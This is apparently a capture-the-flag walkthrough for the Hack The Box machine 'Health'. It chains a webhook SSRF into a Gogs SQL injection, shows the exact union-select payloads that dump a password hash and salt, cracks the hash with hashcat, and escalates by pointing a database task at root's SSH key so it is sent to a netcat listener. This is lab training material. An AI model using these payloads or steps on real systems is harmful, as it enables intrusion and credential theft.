 **Target: 10.10.11.176 Health**

**Initial Access:**\
nmap -Pn 10.10.11.176 --min-rate=5000 -p-|grep open|awk -F '/' '{print $1}'|tr '\n' ',' \
Ouput shows open ports: 22,80.  And a filtered port 3000.

Enumerate these open ports further with nmap: \
nmap -Pn 10.10.11.176 --min-rate=5000 -p 22,80 -sC -sV -oN nmap.health 

![image](https://user-images.githubusercontent.com/93153300/200188788-0df73879-65c6-422a-8020-39b35633aa43.png)

Navigate to port 80. The page shows:

![image](https://user-images.githubusercontent.com/93153300/200188808-59ac4cc2-3031-44d0-afde-c967f997dc4f.png)

Put health.htb into /etc/hosts: 10.10.11.176 health.htb \
This page shows that we can create webhooks and test it.  The monitored URL means the url that we want to check on.  The payload URL is the url of the server that will receive the webhook post requests.  Meaning, the payload url will receive the information about the monitored url. 

We have access to port 80 already, so doing this monitor on port 80 is not so interesting.  However, nmap showed that port 3000 is filtered.  Try to get information on port 3000 with this webhook.  Input the following: \
Payload url: http://```<LHOST>```:4444  	 (open on our pc a netcat listener: nc -lvnp 4444) \
Monitored url: http://health.htb:3000 \
Interval: */1 * * * * \
Under what circumstances should the webhook be sent: Select the option of ‘Always’. 

Now that we have finished inputting the information click on test.  The site responds that it isn’t allowed to monitor http://health.htb:3000:

![image](https://user-images.githubusercontent.com/93153300/200188815-9e9f6848-079d-40d2-be80-9247090d8f11.png)

Try changing the monitored url input to 127.0.0.1:3000 instead of health.htb, but again it gets the same error.  

The server won’t let us get information on port 3000.   \
Test to see if we can input our ip address as the monitored url.  Open a python web server: python3 -m http.server 80.  Next, input the monitored url as our ip address instead of health.htb. Click on test, it works.  

Based on the above, it seems like port 3000 on the target cannot be monitored by external ip’s.  Therefore, let’s try server side request forgery.  We will put in the ‘monitored url’ field our ip address, but then set up on our python server a redirect to 127.0.0.1:3000.  Here are the steps for this plan of action: \
Step 1: Write a python redirect.py script: 

![image](https://user-images.githubusercontent.com/93153300/200188820-975ff803-82b9-453f-bbd4-18bcce792e2d.png)
 
With this redirect.py script, when we input on port 80 to monitor our url, it will reach out to our url but then redirect to monitor 127.0.0.1:3000.  
Step 2: Open a netcat listener to capture the data returned: nc -lvnp 4444. \
Run python redirect.py server: 

![image](https://user-images.githubusercontent.com/93153300/200188826-57b845b3-0632-4b5c-a493-3ea8773f90db.png)
 
Step 3: Input the following information on port 80 and then click on test:

![image](https://user-images.githubusercontent.com/93153300/200188834-e625f1ac-2d42-41d6-8fc4-949d691de140.png)

Step 4: The ssrf worked, our netcat listener received the source code on port 3000:

![image](https://user-images.githubusercontent.com/93153300/200188843-5c19dae2-30da-43b1-bd84-a629385cb203.png)

Reading through the source code we find that it mentions a number of times the ‘Gogs (Go Git Service)’.  Seems like the 127.0.0.1:3000 runs Gogs.  

Check for exploits on Gogs with command: searchsploit gogs → found exploits:

![image](https://user-images.githubusercontent.com/93153300/200188853-5b5f1274-e1a9-42bb-b30b-d4360680b757.png)
 
Download 35238.txt with command: searchsploit -m 35238.txt. \
After reading through the sqli exploit 35238.txt, and some trial and error, here is the working payload:\
http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,1,(select/**/passwd/**/from/**/user),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1--

This exploit will not work if we run that payload in the url, as port 3000 is filtered.  We will perform this sqli through our server side request forgery.  Repeat the steps for ssrf like we did before.  The only difference here is that our redirect will go to the sqli.  It should look like this:

![image](https://user-images.githubusercontent.com/93153300/200188860-94a4bfe5-83a9-480d-878a-65ca71a7afe0.png)
  
![image](https://user-images.githubusercontent.com/93153300/200188870-917f493f-bfe3-4b46-96cc-af88fb9df27a.png)

Click on test and the sqli works:
 
![image](https://user-images.githubusercontent.com/93153300/200188969-f461d86c-bbae-46ec-81df-1da6ebd7b27e.png)

To make the netcat data capture easier to read: \
Step 1: copy the netcat data into a file, we will call it sqlidump \
Step 2: cat sqldump | jq

![image](https://user-images.githubusercontent.com/93153300/200188983-6b4e4771-1d4c-4aa3-ab9a-0b2079655c1b.png)

Found username ‘susanne’ and a hashed password ‘66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37’

Do the same sqli through ssrf to get the salt.  To do this, just change the sql injection from getting the password to getting the salt.  It should look like this: \
http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,1,(select/**/salt/**/from/**/user),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1--

Found the salt: sO3XIbeW14

Command to put salt and hash in a format that hashcat can crack: \
echo 'sha256:10000:'$(echo 'sO3XIbeW14' | base64 | cut -c1-14)':'$(echo '66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37' | xxd -r -p | base64) >hash

hashcat hash -m 10900 /usr/share/wordlists/rockyou.txt
cracked: february15

ssh susanne@health.htb → when prompted for the password enter the password.
Got shell as susanne, can get the flag at /home/susanne/user.txt
_________________________________________________________________
**Privilege Escalation:**\
(*my ip address was 10.10.14.126, at this point it changed to 10.10.14.4)

Upload pspy to the target.  Change the pspy permission to have executable permissions with command: chmod +x pspy.  Running pspy we find:

![image](https://user-images.githubusercontent.com/93153300/200188995-619f072b-8d70-4feb-a667-7b7dfd4b9921.png)

Pspy shows that there is a background job that runs the ‘tasks’ in the mysql laravel database as root.  If we can change the values in ‘tasks’ then we can use that to escalate to root. 

We need to check 3 things to see if we can use this background job to escalate to root.  \
Step 1: Mysql credentials to log in.\
Step 2: Need privileges on mysql to update/change values in the table tasks.\
Step 3: Need to figure out how to create a task.

**Step 1 check:**\
File /var/www/html/.env contains credentials:

![image](https://user-images.githubusercontent.com/93153300/200189008-78c4e9a7-1d17-4954-9ed4-e38122fb7662.png)

Log into mysql with command: \
mysql -u laravel -p     → when prompts for password then enter MYsql_strongestpass@2014+ 

**Step 2 check:**\
Check if we have privileges to create/update column values with command: show grants;

![image](https://user-images.githubusercontent.com/93153300/200189018-758297c0-2818-4c17-93e2-8740776ecdc6.png)

This shows that we do have privileges to update column values in mysql.  

**Step 3 check:**\
Find the ‘tasks’ table.   \
Check databases in mysql with command: show databases;

![image](https://user-images.githubusercontent.com/93153300/200189022-07909692-17a4-4f54-a41d-755744326c77.png)

Choose laravel database with command: use laravel;\
Check what tables are in laravel with command: show tables;

![image](https://user-images.githubusercontent.com/93153300/200189027-3f433223-1f23-4f0f-b8b9-c8f4f0db2b61.png)

Check the columns in the table ‘tasks’ with command: describe tasks;

![image](https://user-images.githubusercontent.com/93153300/200189032-d27baa33-91ef-4b2d-be12-6609bf3cbe61.png)
 
Now that we found the table ‘tasks’, let’s check how we can create a task. Pspy seemed to indicate that port 80 creates tasks.  Let’s test this out.  Before doing anyhting, checking on the tasks databases values shows as empty:

![image](https://user-images.githubusercontent.com/93153300/200189043-2d06d924-7761-45a5-ab1e-6a7dd0eca994.png)
Create a webhook on port 80 like we did previously (monitored and payload url put our ip address):  

![image](https://user-images.githubusercontent.com/93153300/200189049-32e96e00-8e3c-4c17-84a8-0de765ee45bf.png)
  
This time, do not click on test, rather click on create.  After clicking create on port 80, check on the task’s value in mysql: 

![image](https://user-images.githubusercontent.com/93153300/200189053-b4b16d28-f4cf-4575-903c-edd9edbf979e.png)
This clearly shows that creating a webhook on port 80 creates a task in the mysql laravel database.  

Now that we have checked off all 3 steps, we are ready to use this to escalate to root.  \
Steps for privilege escalation:\
Step 1: Open a netcat listener: nc -lvnp 80. \
Step 2: On port 80, create a webhook to output the ‘monitoredUrl’ data to us on our netcat listener:

![image](https://user-images.githubusercontent.com/93153300/200189846-52ee5a8f-37d0-44aa-b837-f7b1bfb3c542.png)

Step 3: In the laravel database in mysql, update the column ‘monitoredUrl’ to root’s private ssh key with command: update tasks set monitoredUrl=’file:///root/.ssh/id_rsa’; \
Step 4: Our netcat listener will get root’s ssh private key, then we can ssh into root with that key. 

![image](https://user-images.githubusercontent.com/93153300/200189063-f44200e8-07ef-48ae-91d0-346e9e3a8bc2.png)
  
To make the private key work for ssh login do the following: \
Step 1: Create a file (we will call it id_rsa) and paste the private key into the file.\
Step 2: Change file permissions with command:  chmod 600 id_rsa \
Step 3: Replace all ‘\n’ with an actual new line.  \
Step 4: Remove the remaining backslashes with command: cat id_rsa | tr -d ‘\’ > id_rsaroot

Log into root with command: ssh -i id_rsaroot root@health.htb   \
We have shell as root, we can get the flag at /root/root.txt
